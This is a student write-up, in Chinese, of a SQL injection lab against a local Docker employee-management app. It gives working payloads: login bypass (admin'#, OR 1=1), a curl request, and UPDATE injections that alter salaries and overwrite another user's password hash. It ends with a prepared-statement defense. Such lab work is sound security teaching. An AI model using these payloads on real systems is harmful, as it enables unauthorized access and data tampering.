


# SQL Injection Lab

## Experimental Principle

SQL注入是一种代码注入技术，它利用Web应用程序和数据库服务器之间接口中的漏洞。

当用户的输入在发送到后端数据库服务器之前未在 Web 应用程序中正确检查时，就会出现该漏洞。

许多 Web 应用程序获取用户的输入，然后使用这些输入构建 SQL 查询，以便从数据库获取信息。

 Web 应用程序还使用 SQL 查询在数据库中存储信息。这些是 Web 应用程序开发中的常见做法。

当 SQL 查询构造不仔细时，可能会出现 SQL 注入漏洞。 SQL 注入是对 Web 应用程序最常见的攻击之一。

---

## Lab Environment Setup

实验提供了一个简单的员工管理Web 应用程序。其服务器和数据库分别部署在 10.9.0.5 和 10.9.0.6 上。

首先进入 `LabSetup` 并启动容器：

```bash
dcbuild
dcup
```


host映射已提前配置好，我们直接打开 www.seed-server.com 验证：


实验提供了初始数据库：


---

## Task 1: Get Familiar with SQL Statements

此任务的目标是通过使用提供的数据库来熟悉 SQL 命令。

进入托管数据库的容器，以 root 身份登录 mysql ，实验提供了初始密码 dees。

```shell
docker ps
docker exec -it 37eb762e1698 /bin/bash
mysql -u root -pdees
```


查看所有数据库：

```sql
show databases;
```


实验提供了初始数据库 `sqllab_users` ，我们连接上并进行一些测试：

```mysql
use sqllab_users;        //连接数据库 sqllab_users
show tables;             //显示数据库中的所有表
desc credential;         //显示当前表的表结构
select * from credential where Name='Alice'     //在当前表中查找 name 为 Alice 的所有记录
```


---

## Task 2: SQL Injection Attack on SELECT Statement

SQL 注入基本上是一种技术，攻击者可以通过该技术执行自己的恶意 SQL 语句（通常称为恶意负载）。

通过恶意SQL语句，攻击者可以窃取受害者数据库中的信息，甚至可以修改数据库。

在web应用程序中实现身份验证的 PHP 代码位于服务器容器中的 /var/www/SQL_Injection 中的 unsafe_home.php。

由于代码比较多，这里引用一下实验文档的核心代码：

```php
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);
// The following is Pseudo Code
if(id != NULL) {
if(name==’admin’) {
return All employees information;
} else if (name !=NULL){
return employee information;
}
} else {
Authentication Fails;
}
```

可以看到，核心验证逻辑为一条 sql：

```mysql
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
```

很简单的一条查询语句，但也最容易遭到攻击。

---

### Task 2.1: SQL Injection Attack from webpage

您的任务是从登录页面以管理员身份登录Web应用程序，这样您就可以看到所有员工的信息。

我们假设您知道管理员的帐户名 admin，但不知道密码。您需要决定在用户名和密码字段中输入什么内容才能成功进行攻击。

我们采用最基础的单引号注入：

```sql
WHERE name= ’admin’# and Password=’$hashed_pwd’";
```

可以看到我们在用户名输入 `admin'#` 之后，后面的密码的判断语句被注释掉了，从而能无密码登录。


除此之外，还有：

```sql
#布尔盲注入
#但只能显示第一条数据，可添加ORDER BY salary DESC; #显示所有数据
WHERE name= 'admin' OR 1=1 #' and Password='$hashed_pwd'    
#绕过条件注入
WHERE name= 'admin' OR '1'='1' and Password='$hashed_pwd'           
```

经过实验也都有效。

### Task 2.2: SQL Injection Attack from command line

任务要求是使用命令行进行注入攻击。

我们使用 curl 命令行发送 http 请求，同时对特殊字符进行简单编码即可：

```sql
curl 'www.seed-server.com/unsafe_home.php?username=admin%27%3b%23'
```


可以看到登录成功，得到了所有用户的信息。

### Task 2.3: Append a new SQL statement

在上述两种攻击中，我们只能从数据库中窃取信息；如果我们能在登录页面中使用相同的漏洞来修改数据库会更好。

一种想法是使用SQL注入攻击将一个SQL语句转换为两个，其中第二个是更新或删除语句。

比如我们想将 Boby 的工资清0，那么我们可以这样注入：

```sql
admin';update credential set salary=0 where name='Boby';#
```


失败了。

应该是因为MySQL 的 `mysqli` 扩展默认不支持一次执行多条 SQL 语句。

---

## Task 3: SQL Injection Attack on UPDATE Statement

如果SQL注入漏洞发生在 UPDATE 语句上，那么造成的损害会更加严重，因为攻击者可以利用该漏洞修改数据库。

当员工通过“编辑配置文件”页面更新其信息时，将执行以下SQL更新查询。

在 ` unsafe_edit_backend.php` 中实现的PHP代码用于更新员工的配置文件信息。PHP文件位于/ var/www/SQL_Injection 文件夹中。

我们查看一下：


核心语句为：

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
Password=’$hashed_pwd’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

### Task 3.1: Modify your own salary

修改你自己的工资。在“编辑个人资料”页面中，修改自己的薪资。

我们登录 Alice 的账号修改个人资料，随便选取一个注入点 nickname：

```sql
 110',Salary='30001
```


修改成功。

### Task 3.2: Modify other people’ salary

修改其他人的工资。把 boby 的薪资修改为 0。

只需要增加 where 语句匹配即可：

```sql
110', Salary=0 where ID=2#
```




修改成功。

### Task 3.3: Modify other people’ password

修改Boby的密码改成自己知道的东西。

我们再次查看 `unsafe_edit_backend.php` 来看看密码是怎么存储的：


可以看到密码是采用 SHA1 哈希函数来生成密码的哈希值。

先生成我们想要的密码的哈希值：


```
alice 522B276A356BDF39013DFABEA2CD43E141ECC9E8
```

注入代码：

```sql
110',Password='522B276A356BDF39013DFABEA2CD43E141ECC9E8' WHERE ID=2;#
```


此时拿 boby 拿原密码登录账号：


登录失败。

输入修改后的密码 alice ：


登录成功。

---

## Task 4: Countermeasure — Prepared Statement

SQL注入漏洞的基本问题是==未能分离出代码和数据==。

在构造SQL语句时，程序（例如PHP程序）知道哪些部分是数据，哪些部分是代码。

不幸的是，当SQL语句被发送到数据库时，边界已经消失；SQL解释器看到的边界可能与开发人员设置的原始边界不同。

要解决这个问题，必须确保服务器端代码和数据库中的边界视图是一致的。最安全的方法是使用已准备好的语句。

要了解准备好的语句如何防止SQL注入，我们需要了解当SQL服务器接收到查询时会发生什么。



查询首先经过==解析和规范化阶段==，在该阶段，查询将根据语法和语义进行检查。

下一个阶段是==编译阶段==，其中的关键字(例如，SELECT、FROM、UPDATE 等)。被转换为一种机器可以理解的格式。基本上，在这个阶段，查询会被解释。

在==查询优化阶段==，考虑不同计划的数量来执行查询，从中选择最佳的优化计划。

所选计划存储在缓存中，因此每当下一个查询进入时，它将根据缓存中的内容进行检查；

如果它已经存在于缓存中，则将跳过解析、编译和查询优化阶段。然后将编译后的查询传递到实际执行的执行阶段。


准备好的语句会在编译后和执行步骤之前进入图片的过程中。一个准备好的语句将经过编译步骤，并被转换为==一个具有数据空占位符的预编译查询==。

要运行此预编译的查询，需要提供数据，==但这些数据不会通过编译步骤==；相反，它们被直接插入到预编译的查询中，并被发送到执行引擎。

因此，==即使数据内部有SQL代码，如果不经过编译步骤，该代码也将被简单地视为数据的一部分==，没有任何特殊的含义。这就是准备好语句防止SQL注入攻击的方法。

例如：

```sql
$sql = "SELECT name, local, gender
FROM USER_TABLE
WHERE id = $id AND password =’$pwd’ ";
$result = $conn->query($sql))
```

上述代码很容易受到SQL注入的攻击。它可以重写如下:

```sql
$stmt = $conn->prepare("SELECT name, local, gender
FROM USER_TABLE
WHERE id = ? and password = ? ");
// Bind parameters to the query
$stmt->bind_param("is", $id, $pwd);        #is表示参数类型为整型和字符串
$stmt->execute();
$stmt->bind_result($bind_name, $bind_local, $bind_gender);
$stmt->fetch();
```

使用准备好的语句机制，我们将向数据库发送SQL语句的过程分为两个步骤。

第一步是==只发送代码部分==，即没有实际数据的SQL语句。这是需要准备的步骤。正如我们从上面的代码片段中所看到的，实际的数据会被问号（？）所取代。

在这一步骤之后，我们使用 `bind_param("is", $id, $pwd)` 将数据发送到数据库。

数据库将只将此步骤中发送的所有内容视为数据，而不再是代码。它将==数据绑定到准备好的语句的相应问号上==。

了解了原理后，我们进行操作，我们对 `/var/www/SQL_Injection/defense` 文件夹下的 `unsafe.php` 做出改动：

```php
  // Sql query to authenticate the user
  $sql = $conn->prepare("SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
  FROM credential
  WHERE name= ? and Password= ?");
  $sql->bind_param("ss", $input_uname, $hashed_pwd);
  $sql->execute();
  $sql->bind_result($id, $name, $eid, $salary, $birth, $ssn, $phoneNumber, $address, $email, $nickname, $pwd);
  $sql->fetch();
  $sql->close();

  if($id!=""){
    // If id exists that means user exists and is successfully authenticated
    drawLayout($id,$name,$eid,$salary,$birth,$ssn,$pwd,$nickname,$email,$address,$phoneNumber);
  }else{
    // User authentication failed
    echo "</div>";
    echo "</nav>";
    echo "<div class='container text-center'>";
    echo "<div class='alert alert-danger'>";
    echo "The account information your provide does not exist.";
    echo "<br>";
    echo "</div>";
    echo "<a href='index.html'>Go back</a>";
    echo "</div>";
    return;
  }
```


此时访问：http://www.seed-server.com/defense/，在此页面中输入的数据将被发送到服务器程序 getinfo.php，该程序会调用 `unsafe.php` 。

再次尝试注入：


注入失败。

我们再还原 `unsafe.php` 对比一下：


再次尝试注入：


注入成功。

---

## Summary

主要学习了：

- mysql 的简单查询。
- sql 注入的原理。
- 使用预处理策略防御 sql 注入。
